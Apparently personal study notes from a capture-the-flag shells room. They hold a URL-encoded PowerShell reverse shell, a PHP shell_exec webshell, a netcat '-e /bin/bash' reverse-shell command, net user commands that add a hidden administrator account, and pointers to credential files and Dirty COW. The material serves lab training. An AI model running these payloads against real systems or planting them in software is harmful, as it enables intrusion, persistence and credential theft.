powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22

This is the same shell we encountered in Task 8, however, it has been URL encoded to be used safely in a GET parameter. Remember that the IP and Port (bold, towards end of the top line) will still need to be changed in the above code.

* Next Steps



Ok, we have a shell. Now what?



We've covered lots of ways to generate, send and receive shells. The one thing that these all have in common is that they tend to be unstable and non-interactive. Even Unix style shells which are easier to stabilise are not ideal. So, what can we do about this?

On Linux ideally we would be looking for opportunities to gain access to a user account. SSH keys stored at /home/<user>/.ssh are often an ideal way to do this. In CTFs it's also not infrequent to find credentials lying around somewhere on the box. Some exploits will also allow you to add your own account. In particular something like [[https://dirtycow.ninja/][Dirty C0w]] or a writeable /etc/shadow or /etc/passwd would quickly give you SSH access to the machine, assuming SSH is open.

On Windows the options are often more limited. It's sometimes possible to find passwords for running services in the registry. VNC servers, for example, frequently leave passwords in the registry stored in plaintext. Some versions of the FileZilla FTP server also leave credentials in an XML file at C:\Program Files\FileZilla Server\FileZilla Server.xml
 or C:\xampp\FileZilla Server\FileZilla Server.xml
. These can be MD5 hashes or in plaintext, depending on the version.

Ideally on Windows you would obtain a shell running as the SYSTEM user, or an administrator account running with high privileges. In such a situation it's possible to simply add your own account (in the administrators group) to the machine, then log in over RDP, telnet, winexe, psexec, WinRM or any number of other methods, dependent on the services running on the box.

The syntax for this is as follows:
#+src-start bash

net user <username> <password> /add

net localgroup administrators <username> /add
#+src-end

The important take away from this task:

Reverse and Bind shells are an essential technique for gaining remote code execution on a machine, however, they will never be as fully featured as a native shell. Ideally we always want to escalate into using a "normal" method for accessing the machine, as this will invariably be easier to use for further exploitation of the target.


* Practice and Examples



This room contained a lot of information, and gave you little opportunity to put it into practice throughout. The following two tasks contain virtual machines (one Ubuntu 18.04 server and one Windows server), each configured with a simple webserver with which you can upload and activate shells. This is a sandbox environment, so there will be no filters to bypass. Login credentials and instructions for each will also be given, should you wish to log in to practice with netcat, socat or meterpreter shells.

The remainder of this task will consist of shell examples for you to try out on the practice boxes.


** Try uploading a webshell to the Linux box, then use the command: nc <LOCAL-IP> <PORT> -e /bin/bash to send a reverse shell back to a waiting listener on your own machine.

 1. first make a file shell.php, inside put "<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>"

 2. Then upload to target website,

 3. then start netcat listener (nc -lvnp PORT)

 4. then run command to target website by adding /shell.php?cmd=nc LOCALIP PORT -e /bin/bash
    (optionally, you can url encode it) 

** Navigate to /usr/share/webshells/php/php-reverse-shell.php in Kali and change the IP and port to match your tun0 IP with a custom port. Set up a netcat listener, then upload and activate the shell.

 1. copy the php-reverse-shell.php

 2. change your tun0 IP and listening port

 3. start a nc listener (nc -lvnp PORT)

 4. upload php-reverse-shell.php

 5. execute it through the urls UPLOAD_PATH/php-reverse-shell.php

 

